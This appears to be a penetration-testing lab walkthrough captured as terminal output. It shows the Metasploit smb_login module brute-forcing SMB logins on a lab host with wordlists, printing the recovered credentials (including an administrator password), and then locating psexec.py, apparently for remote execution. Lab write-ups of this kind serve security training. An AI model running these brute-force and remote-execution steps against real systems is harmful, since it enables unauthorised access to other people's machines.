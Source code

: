 ```
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.0.29.230
RHOSTS => 10.0.29.230
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.0.29.230:445       - 10.0.29.230:445 - Success: '.\sysadmin:samantha'
[+] 10.0.29.230:445       - 10.0.29.230:445 - Success: '.\demo:victoria'
[+] 10.0.29.230:445       - 10.0.29.230:445 - Success: '.\auditor:elizabeth'
[+] 10.0.29.230:445       - 10.0.29.230:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.0.29.230:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```
root@attackdefense:~# find / -name "psexec.py"
find: '/proc/tty/driver': Permission denied
find: '/proc/222/map_files': Permission denied
find: '/proc/433/map_files': Permission denied
find: '/proc/435/map_files': Permission denied
find: '/proc/436/map_files': Permission denied
find: '/proc/437/map_files': Permission denied
find: '/proc/438/map_files': Permission denied
find: '/proc/439/map_files': Permission denied
find: '/proc/440/map_files': Permission denied
find: '/proc/463/map_files': Permission denied
find: '/proc/468/map_files': Permission denied
find: '/proc/485/map_files': Permission denied
/usr/local/bin/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/set/src/fasttrack/psexec.py
/opt/impacket/examples/psexec.py
```
